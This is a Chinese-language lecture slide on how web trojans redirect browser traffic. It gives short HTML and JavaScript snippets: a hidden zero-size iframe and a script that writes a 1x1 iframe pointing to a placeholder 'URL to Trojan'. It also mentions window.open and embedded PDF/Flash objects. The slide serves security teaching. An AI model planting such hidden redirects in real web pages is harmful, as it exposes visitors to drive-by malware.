

# 网络访问流量重定向机制
内嵌HTML标签
最为简单和常见的流量重定向机制：iframe嵌入外部页面链接
<iframe src="URL to Trojan" width="0" height="0" frameborder="0"> </iframe>
frame, body onload事件, CSS标签等

恶意script脚本
很常见：利用script标签通过跨站脚本包含网页木马
<script language=Javascript>document.write("<iframe width=1 height=1 src=URL to Trojan></iframe>"); </script>
window.open("URL to Trojan")

内嵌对象
调用第三方应用软件或浏览器帮助对象（BHO）的内嵌对象
Adobe Pdf / Flash
2022年9月2日
41